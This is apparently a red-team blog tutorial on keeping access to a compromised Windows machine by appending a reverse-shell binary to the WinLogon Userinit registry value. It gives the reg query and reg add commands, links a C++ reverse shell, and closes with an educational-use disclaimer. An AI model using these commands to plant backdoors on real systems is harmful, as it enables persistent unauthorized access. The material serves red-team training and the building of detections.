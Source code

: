 # Windows Persistence Using WinLogon Reverse Shell

## Introduction
In this guide, I'll walk you through a method to establish persistence on Windows systems by leveraging the widely utilized WinLogon component.

## What is Persistence?
Persistence refers to techniques attackers use to maintain access to a system despite reboots, credential changes, or other disruptions that might otherwise terminate their connection. These methods involve actions, configurations, or code modifications that ensure continued access, such as altering legitimate programs or injecting code into startup processes.

In simpler terms, persistence allows you to keep control over a compromised machine, regaining your access even after the system restarts, without needing to reinfect the target.

## What is WinLogon?
WinLogon is a critical Windows component responsible for managing tasks like user logon, logoff, loading user profiles during authentication, system shutdowns, and handling the lock screen. These actions are controlled via the Windows registry, which specifies what processes launch during logon events. For red team operations, these events can serve as triggers to execute custom payloads, enabling persistent access.

Now that we’ve covered the basics, let’s dive into achieving persistence with WinLogon.

## Proof of Concept (PoC)
For this demonstration, I’ll use a file named `shell.exe`, a reverse shell crafted in C++. You can find the source code here:

[GitHub - S12cybersecurity/Reverse-Shell-C-PlusPlus](https://github.com/S12cybersecurity/Reverse-Shell-C-PlusPlus)  
*Note*: This is a modified version of a simple C++ reverse shell, originally shared by cocomelonc.

Let’s get started, assuming an active reverse shell is already running on the target system.

### Step 1: Inspect the Registry
Run the following command to check the current `Userinit` value in the WinLogon registry key:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

### Step 2: Confirm the Current Winlogon Setting
First, query the existing value to verify the current state:

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

You’ll usually see something like:

```text
Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
```

This is the default behavior — it runs the `userinit.exe` process, which is responsible for starting the user environment after login.

### Step 3: Inject Your Shell into the Winlogon Process
Now, we’ll modify this value to include our reverse shell binary (`shell.exe`) alongside the legitimate executable.

Run the following command in an elevated command prompt (as Administrator):

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\system32\userinit.exe, C:\Users\s12de\Downloads\shell.exe" /f
```

- `HKLM` refers to **HKEY_LOCAL_MACHINE**, the section of the Windows Registry that stores system-wide settings.
- `/v Userinit` specifies the exact registry value we want to modify — in this case, the `Userinit` key.
- `/d` defines the new data to be assigned — here, it's the original `userinit.exe` plus the path to our reverse shell payload.
- `/f` forces the change to take place without asking for confirmation.

This modification ensures that every time a user logs in, logs out, or locks/unlocks their system, both the legitimate `userinit.exe` and your custom reverse shell (`shell.exe`) are executed automatically.

✅ If everything goes well, you'll receive this confirmation:

```text
The operation completed successfully.
```

## Conclusion
Using the **Winlogon Userinit** registry key provides a discreet and persistent method to retain access on a Windows machine.  
Because it’s deeply embedded in the system’s authentication routine, it serves as a dependable point to execute your custom payload.

> ⚠️ **Important:** This information is shared for educational purposes only. Always ensure you have explicit permission before testing or deploying such techniques.

---

Thanks for reading!  
**— S12**
